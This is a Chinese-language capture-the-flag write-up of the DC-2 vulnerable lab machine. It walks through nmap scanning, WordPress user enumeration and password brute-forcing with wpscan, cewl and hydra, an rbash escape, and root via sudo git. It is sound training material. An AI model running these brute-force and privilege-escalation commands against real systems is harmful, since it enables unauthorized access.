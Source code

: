 ```yaml
---
 title: DC-2靶机渗透实战
 date: 2020-02-04 19:12:33
 tags: 靶机渗透
 categories: 靶机渗透
---
```

### 靶机介绍

这次的靶机渗透实战是一个找寻靶机中的flag的过程，并以获得最终的flag为目标。
靶机下载地址:http://www.five86.com/dc-2.html

### 信息搜集
直接上nmap进行扫描
> nmap -sV -A 172.16.0.12
```
Nmap scan report for localhost (172.16.0.12)
Host is up (0.0011s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
MAC Address: 00:0C:29:B7:BA:FE (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   1.07 ms localhost (172.16.0.12)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.58 seconds
```
发现开了80端口却无法访问，是重定向到dc-2域名，可改hosts文件访问，添加ip对应域名

win10路径： C:\Windows\System32\drivers\etc\hosts

linux路径： etc/hosts
<!--more-->

### 渗透实战
1. 查看页面为wordpress的cms且页面有flag提示
![2020-2-4-20-21-44](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-4-20-21-44)
- 用cewl来做字典
- 且登录进去才有可以拿到下一个flag
2. 果断用wpscan列出用户
> wpscan --url http://dc-2 -e u
```
admin
tom
jerry
```
3. 用cewl生成字典
> cewl http://dc-2 -w passwds.txt
4. 用wpscan进行用户爆破
> wpscan --url http://dc-2 -U users.txt -P passwds.tx
```
[i] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```
5. 通过jerry用户登录后台发现flag2,提示走别的切入点
![2020-2-4-20-35-23](https://raw.githubusercontent.com/bbkali/picbad/master/2020-2-4-20-35-23)
6. 再扫描一下端口发现7744 ssh服务
> nmap -sV -p- dc-2 
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-04 20:36 CST
Nmap scan report for dc-2 (172.16.0.12)
Host is up (0.00047s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
MAC Address: 00:0C:29:B7:BA:FE (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.01 seconds
```
7. 尝试hydra爆破ssh
> hydra -L users.txt  -P passwds.txt dc-2 -s 7744 ssh -vV
```
[7744][ssh] host: dc-2   login: tom   password: parturient
```
- 登录ssh
> ssh tom@dc-2 -p 7744
```
tom@DC-2:~$ whoami
-rbash: whoami: command not found
tom@DC-2:~$ pwd
/home/tom
tom@DC-2:~$ ls
flag3.txt  usr
tom@DC-2:~$ cat flag3.txt
-rbash: cat: command not found
```
- 发现是一个受限的bash,直接rbash绕过获取到flag3.txt内容
```
tom@DC-2:~$ BASH_CMDS[a]=/bin/sh;a # 赋值给a
$ export PATH=$PATH:/bin/ # 导入环境变量
$ export PATH=$PATH:/usr/bin
$ ls
flag3.txt  usr
$ cat flag3.txt
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```
- 提示su切换jerry，使用之前后台爆破出来的密码成功登录
```
jerry@DC-2:~$ cat flag4.txt 
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```
- 提示最终的home，应该是要提权了，且是利用git
> find / -perm -u=s -type f 2>/dev/null
发现没有find和git命令,通过sudo查看发现jerry用户无需root密码可以执行git
> sudo -l
```
jerry@DC-2:/home$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```
8. git提权
```
sudo git -p help # -p强制进入交互模式
!/bin/sh
```
- 直接root权限获取最终finalflag
```
ls
final-flag.txt
# cat final-flag.txt
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.
```

